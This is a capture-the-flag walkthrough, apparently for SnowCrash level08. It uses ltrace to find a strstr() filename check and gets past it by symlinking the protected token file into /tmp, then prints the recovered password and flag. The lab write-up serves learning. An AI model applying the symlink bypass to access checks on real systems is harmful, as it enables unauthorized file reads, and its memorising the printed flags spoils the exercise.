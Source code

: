 
in this level we got:
--------------------------------
level08@SnowCrash:~$ ls
level08  token
--------------------------------

let's execute level08:
--------------------------------
level08@SnowCrash:~$ ./level08
./level08 [file to read]
--------------------------------

so it needs a file, let's pass token to it:
--------------------------------
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
--------------------------------

so it doesn't wanna take the file.
let's see how the program behave using ltrace:
--------------------------------
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7b4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                   = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)               = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
--------------------------------

so the program use strstr() |man strstr to check it|
and then if the file is named token it exit

so we need to pass the file token in a way to the program 
and the only way is using symbolic link

so let's create in tmp a file linked to token:
--------------------------------
level08@SnowCrash:~$ ln -s ~/token /tmp/pass
--------------------------------

now let's just pass the file to the program:
--------------------------------
level08@SnowCrash:~$ ./level08 /tmp/pass
quif5eloekouj29ke0vouxean
--------------------------------

Good! now let's get the flag:
--------------------------------
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ su level09
Password:
level09@SnowCrash:~$
--------------------------------
